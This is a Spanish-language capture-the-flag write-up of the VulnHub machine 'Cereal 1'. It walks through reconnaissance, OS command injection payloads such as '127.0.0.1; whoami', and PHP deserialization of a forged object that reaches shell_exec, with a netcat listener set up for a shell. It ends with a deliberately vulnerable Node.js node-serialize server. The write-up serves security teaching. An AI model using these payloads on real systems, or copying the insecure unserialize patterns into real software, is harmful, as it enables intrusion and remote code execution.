# Ataques de Deserialización

### Más info:

- Links
    
    Kiko Palomares - Objetos: (”[https://kikopalomares.com/clases/que-es-un-objeto-en-programacion](https://kikopalomares.com/clases/que-es-un-objeto-en-programacion)”)
    
    Kiko Palomares - Clases: (”[https://kikopalomares.com/clases/que-es-una-clase-en-programacion](https://kikopalomares.com/clases/que-es-una-clase-en-programacion)”)
    
    IIFE - (”[https://www.baumannzone.dev/blog/que-son-las-iife-en-javascript-y-como-funcionan](https://www.baumannzone.dev/blog/que-son-las-iife-en-javascript-y-como-funcionan)”)
    
    Nodejs Deserialization Attack - (”[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)”)
    
    Nodejsshell - (”[https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)”)
    

## ¿Qué es un objeto?

Un objeto es una unidad dentro de un programa informático que tiene un estado, y un comportamiento. Es decir, tiene una serie de datos almacenados y tareas que realiza con esos datos en el tiempo de ejecución.

Para usar las funciones de una clase, primero se ha de crear un objeto de esa clase.

Los atributos y métodos de los objetos están definidos por sus clases y no se pueden modificar, aunque en los lenguajes dinámicos como Python y Ruby sí que permiten añadir más atributos o métodos de los que define la clase.



- ¿Qué es una clase?
    
    Una clase es una especie de plantilla que nos servirá para crear objetos de forma ya predefinida.
    

## ¿Qué es la serialización?

Es un mecanismo que permite la transmisión de objetos por la red. Un atacante, puede interceptar este objeto y manipularlo para luego enviarlo al destino con el objetivo de que una vez llegue al servidor, este al deserializarlo, se puede hacer que ocurran acciones alternativas.

En este lab, se hará un PHP Deserialization Attack y un Nodejs Deserialization Attack las cuales permitirán ejecutar comandos por medio de las IIFE.

- ¿Qué es un IIF?
    
    Una **IIFE** o **Immediately Invoked Function Expression** es una expresión de función que se ejecuta inmediatamente después de ser creada. Es un patrón de diseño muy utilizado en JavaScript. También se las conoce como *funciones autoejecutables*, *funciones autoinvocadas* o *funciones anónimas autoejecutables*.
    
    La principal característica de este patrón de diseño es que las funciones se llaman a sí mismas después de ser declaradas. Es decir, que se ejecutan de manera inmediata después de ser creadas.
    

## Reconocimiento

Para este laboratorio se utiliza la máquina “Cereal 1” de vulnhub: [https://www.vulnhub.com/entry/cereal-1,703/](https://www.vulnhub.com/entry/cereal-1,703/)

Primero se debe identificar la máquina víctima:

```bash
arp-scan -I enp0s3 --localnet --ignoredups
ping -c1 <IP>
```

Una ve identificada se procede a hacer un reconocimiento con nmap

```bash
nmap -p- -sS --open -n -Pn -vvv 192.168.0.106
```



```bash
nmap -p21,22,80,139,445,3306,33333,55555 -sCV 192.168.0.1
```





La máquina tiene un servicio http corriendo por el puerto 80 y otro por el 44441, primero se echará un vistazo el primero:



```bash
gobuster -t 10 -u http:// 
-w /usr/share/wordlists/SecLists/Discovery/
Web-Content/directory-list-2.3-medium.txt
```



Al entrar al directorio “/blog/”, la web muestra lo siguiente:



Como se puede ver, al ver el código fuente de la web, esta parece que está apuntando a un dominio en específico por lo que se agregará al /etc/hosts para que la máquina lo pueda resolver



Si al hacer la búsqueda de la web por su nombre de dominio (cereal.ctf) resuelve con resultados de internet, es decir, no muestra la página correspondiente a cereal.ctf, se puede agregar esta configuración:

Primero, en la barra de búsqueda, ingresar “about:config” y en la barra de abajo agregar “browser.fixup.domainsuffixwhitelist.ctf”:


En este caso se agrega el TLD “.ctf”, si fuese otro, se agregaría el TLD correspondiente

Al revisar el sitio web que corre en el puerto 44441, este muestra lo siguiente:



Ahora se hará aplicará un fuzzing para buscar subddominios. Hay que tener en cuenta que al utilizar virtualhosting, no significa que los diferentes sitios web corriendo en la misma máquina, tengan los mismos subdirectorios por lo que es importante aplicar fuzzing a todos servicios web que se encuentren corriendo.

También se debe tener en cuenta que usar la IP y el nombre del dominio no es lo mismo por lo que se podría fuzzear utilizando ambas formas.

```bash
gobuster vhost -u http://cereal.ctf:44441 
-w /usr/share/wordlists/SecLists/Discovery/
DNS/subdomains-top1million-5000.txt
```



Se encontró un subdominio válido por lo que se agregará al “/etc/hosts”.



Parece que la página está ejecutando un comando que permite hacer ping a dicciones IP



Si por ejemplo, se intenta enviar un ping a la máquina local:

```bash
# Primero se pone en modo escucha
tcpdump -i enp0s3 icmp -n
```

Como se puede ver, sí se reciben trazas ICMP al hacer ping a la máquina local:



Debido a que la web está ejecuta comandos, se podría intentar concatenar comandos, a esto se le conoce como “**OS command injection**” y unos payloads que se podrían probar son los siguientes:

```bash
127.0.0.1; whoami
cualquiercosa || whoami
127.0.0.1 && whoami
```



En este caso, ninguna de estas opciones funciona ya que esto está sanitizado.

Al interceptar la petición con Burpsuite, se puede ver lo que se le llama objeto el cual se está enviando por la red.



Este objeto está urlencodeado pero se puede urldecodear con “ctrl + shift + u”



```bash
obj=O:8:"pingTest":1:{s:9:"ipAddress";s:6:"asdasd";}&ip=asdasd

# Interpretación:
O:8:"pingTest":1: # Indica un objeto llamado "pingTest" el 
# cual tiene 8 caracteres y el 1 indica el número de 
# propiedades o atributos que tiene ese objeto

{s:9:"ipAddress";s:6:"asdasd";} # Estas son las propiedades 
# o atributos del objeto y hay dos: "ipAddress" y "asdasd" 
# las cuales son strings (s) y contienen 6 caracteres
```

- Explicación completa (Alternativa)
    
    El código parece ser una representación serializada de un objeto en algún lenguaje de programación. La cadena de texto que has dado tiene una estructura específica que sigue una convención particular de serialización. Aunque no puedo identificar el lenguaje de programación específico que se utiliza aquí, puedo desglosar la estructura general de la cadena para darte una idea de sus partes.
    
    La cadena serializada se divide en diferentes partes separadas por los caracteres ":" y ";". Cada parte representa una propiedad o valor asociado al objeto. Aquí está el desglose de la cadena que proporcionaste:
    
    - obj=O:8:"pingTest":1: Esta parte parece indicar que hay un objeto llamado "pingTest". La "O" al principio podría representar la palabra "object" (objeto en inglés) y el número "8" podría indicar la longitud de la cadena "pingTest". El número "1" podría ser el número de propiedades que tiene este objeto.
    - {s:9:"ipAddress";s:6:"asdasd";} : Esta parte representa las propiedades del objeto "pingTest". Parece haber una propiedad llamada "ipAddress" con el valor "asdasd". La "s" al principio podría representar la palabra "string" (cadena de texto en inglés), seguida de un número que indica la longitud de la cadena.
    - &ip=asdasd: Esta parte adicional "&ip=asdasd" puede ser un parámetro adicional que se pasa junto con el objeto "pingTest". Aquí, "ip" podría ser un identificador o nombre de parámetro y "asdasd" podría ser el valor asociado a ese parámetro.
    
    En general, esta cadena parece ser una forma de representar un objeto y sus propiedades en una forma serializada para ser transmitido o almacenado en algún formato específico. La forma en que se utiliza y se procesa dependerá del contexto y del lenguaje de programación en el que se esté trabajando.
    

Este objeto al enviarlo, el servidor lo deserializa e interpreta lo que se está enviando en el objeto para con base en ello, se ejecute una función o un método, en este caso, lo que se está haciendo es un ping.

Ahora se aplicará un fuzzing a este subdominio para descubrir nuevos subdirectorios:

```bash
gobuster dir -t 10 -u http://secure.cereal.ctf:44441/ 
-w /usr/share/wordlists/SecLists/Discovery/
Web-Content/directory-list-2.3-big.txt
```



Al buscar esta ruta en el navegador, se muestra el siguiente mensaje:



A pesar de que no se tienen permisos para ver este directorio, se puede aplicar fuzzing para descubrir subdirectorios dentro de este.

También se le especificará buscar archivos backup:

```bash
gobuster dir -t 10 -u http://secure.cereal.ctf:44441/ 
-w /usr/share/wordlists/SecLists/Discovery/
Web-Content/directory-list-2.3-medium.txt -x php.bak
```







## PHP Deserialization Attack

Este archivo contiene el código que está gestionando la peticiones de los objetos al enviar el ping por lo que ahora toca analizar el código para ver cómo se podría vulnerar y para esto se copiará y pegará todo el código en un archivo local de la máquina para tener una mayor comodidad. 

- Código
    
    ```bash
    <?php
    
    class pingTest {
    	public $ipAddress = "127.0.0.1";
    	public $isValid = False;
    	public $output = "";
    
    	function validate() {
    		if (!$this->isValid) {
    			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
    			{
    				$this->isValid = True;
    			}
    		}
    		$this->ping();
    
    	}
    
    	public function ping()
            {
    		if ($this->isValid) {
    			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
    		}
            }
    
    }
    
    if (isset($_POST['obj'])) {
    	$pingTest = unserialize(urldecode($_POST['obj']));
    } else {
    	$pingTest = new pingTest;
    }
    
    $pingTest->validate();
    
    echo "<html>
    <head>
    <script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
    <script>
    function submit_form() {
    		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
    		object = object.substr(object.indexOf(\"{\"),object.length);
    		object = \"O:8:\\\"pingTest\\\":1:\" + object;
    		document.forms[\"ipform\"].obj.value = object;
    		document.getElementById('ipform').submit();
    }
    </script>
    <link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
    <title>Ping Test</title>
    </head>
    <body>
    <div class=\"form-body\">
    <div class=\"row\">
        <div class=\"form-holder\">
    	<div class=\"form-content\">
    	    <div class=\"form-items\">
    		<h3>Ping Test</h3>
    		
    		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>
    
    		    <div class=\"col-md-12\">
    			<input name=\"obj\" type=\"hidden\" value=\"\">
    		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
    		    </div>
    		<br />
    		    <div class=\"form-button mt-3\">
    			<input type=\"submit\" value=\"Ping!\">
    			<br /><br /><textarea>$pingTest->output</textarea>
    		    </div>
    		</form>
    	    </div>
    	</div>
        </div>
    </div>
    </div>
    </body>
    </html>";
    
    ?>
    ```
    
- Explicación del código
    
    El código es un ejemplo de código en PHP que implementa una clase llamada "pingTest" y utiliza formularios HTML para realizar pruebas de ping a direcciones IP.
    
    Aquí está el desglose de las partes del código:
    
    1. Declaración de la clase **`pingTest`**: Se define una clase llamada "pingTest" que contiene propiedades como **`$ipAddress`**, **`$isValid`** y **`$output`**, y métodos como **`validate()`** y **`ping()`**. Esta clase representa una prueba de ping y contiene la lógica para validar la dirección IP y realizar la prueba de ping.
    2. Método **`validate()`**: Este método verifica si la dirección IP es válida utilizando la función **`filter_var()`** de PHP con el filtro **`FILTER_VALIDATE_IP`**. Si la dirección IP es válida y **`$isValid`** es **`False`**, se establece **`$isValid`** en **`True`**. Luego, llama al método **`ping()`**.
    3. Método **`ping()`**: Este método utiliza la función **`shell_exec()`** de PHP para ejecutar el comando de ping en la dirección IP y almacenar la salida en la propiedad **`$output`**. Solo se ejecuta si **`$isValid`** es **`True`**.
    4. Verificación de la solicitud POST: El código verifica si hay un parámetro POST llamado 'obj'. Si está presente, utiliza la función **`unserialize()`** y **`urldecode()`** para deserializar y decodificar el valor de 'obj' y asignarlo a la variable **`$pingTest`**. De lo contrario, crea una nueva instancia de la clase **`pingTest`** y la asigna a la variable **`$pingTest`**.
    5. Llamada al método **`validate()`**: Se llama al método **`validate()`** de la instancia de la clase **`pingTest`** para realizar la validación de la dirección IP y la prueba de ping.
    6. Generación de HTML: Se genera una página HTML que contiene un formulario de envío de direcciones IP. El resultado de la prueba de ping se muestra en un textarea. El código JavaScript **`submit_form()`** se encarga de serializar y enviar el objeto **`pingTest`** al servidor cuando se envía el formulario.
    
    En general, este código PHP implementa una funcionalidad básica para realizar pruebas de ping a direcciones IP y mostrar los resultados en una página web.
    
    - ¿Para qué sirve “->”?
        
        El operador "->" se utiliza para acceder a las propiedades y métodos de un objeto.
        
        En el contexto de la programación orientada a objetos en PHP, "->" se conoce como el operador de acceso a miembros o el operador de flecha. Se utiliza después de una variable que contiene una instancia de una clase y permite acceder a sus propiedades y métodos.
        
        Por ejemplo, en el código que proporcionaste, **`$pingTest->validate()`** y **`$pingTest->output`** utilizan el operador "->" para acceder al método **`validate()`** y a la propiedad **`output`** de la instancia de la clase **`pingTest`**.
        
        En resumen, el operador "->" es utilizado para acceder y manipular los miembros (propiedades y métodos) de un objeto en PHP.
        
    - ¿Qué es $this?
        
        La variable **`$this`** es especial en PHP y se utiliza dentro de la programación orientada a objetos para referirse al objeto actual en el que se está trabajando.
        
        En PHP, cuando se crea una instancia de una clase, se crea un objeto que contiene sus propias propiedades y métodos. Dentro de los métodos de esa clase, la variable **`$this`** se utiliza para referirse a la instancia actual de la clase. Puedes pensar en **`$this`** como una referencia al objeto en sí mismo.
        
        Cuando se utiliza **`$this`** dentro de un método, se puede acceder a las propiedades y métodos del objeto al que pertenece ese método. Por ejemplo, en el código que proporcionaste, **`$this->isValid`** y **`$this->ipAddress`** se utilizan para acceder a las propiedades **`isValid`** e **`ipAddress`** del objeto **`pingTest`** actual.
        
        Es importante destacar que **`$this`** solo se puede utilizar dentro de contextos de objetos en PHP. Fuera de un contexto de objeto, el uso de **`$this`** generará un error. Además, **`$this`** solo está disponible en el ámbito de un método de objeto, no en el ámbito global.
        
        En resumen, **`$this`** es una variable especial en PHP que se utiliza dentro de los métodos de una clase para referirse al objeto actual y acceder a sus propiedades y métodos.
        





La parte 2 de validación está sanitizada ya que verifica que el atributo “isValid” esté en False y que el comando del usuario sea una IP.

El objetivo del atacante es llegar al punto 3 de ejecución de comandos para poder ejecutar un comando como “whoami”.

Una ventaja es que, como se vio en la captura de Burpsuite, se pudo interceptar el objeto y este se puede manipular.

Lo que se hará es manipular el objeto para que el atributo “ipAddress” valga un comando deseado y se establecerá el “isValid” como True, luego esto se codificará para posteriormente ser enviado por medio de una petición al servidor, para esto se crea un archivo php el cual contendrá los datos a manipular:





Al ejecutar el código php, se ejecuta el “echo” en el cual se le indica que se urlencode y serialice el objeto “pingTest” y muestra el resultado en pantalla. Esto se envía por medio de una petición con Burpsuite:

```bash
# Primero se pone en escucha con netcat
nc -nlvp 4646
```

Y se envía la petición con la data serializada.





## Nodejs Deserialization Attack

Para crear el lab, primero se copiará un código para crear un servidor, este código se pegará en un archivo que se llamará “server.js”:

- Código
    
    ```bash
    var express = require('express');
    var cookieParser = require('cookie-parser');
    var escape = require('escape-html');
    var serialize = require('node-serialize');
    var app = express();
    app.use(cookieParser())
     
    app.get('/', function(req, res) {
     if (req.cookies.profile) {
       var str = new Buffer(req.cookies.profile, 'base64').toString();
       var obj = serialize.unserialize(str);
       if (obj.username) {
         res.send("Hello " + escape(obj.username));
       }
     } else {
         res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
           maxAge: 900000,
           httpOnly: true
         });
     }
     res.send("Hello World");
    });
    app.listen(3000);
    ```
    

Ahora se debe lanzar el servidor pero si se muestran los siguientes errores, significa que hay que instalar ciertos módulos primero.

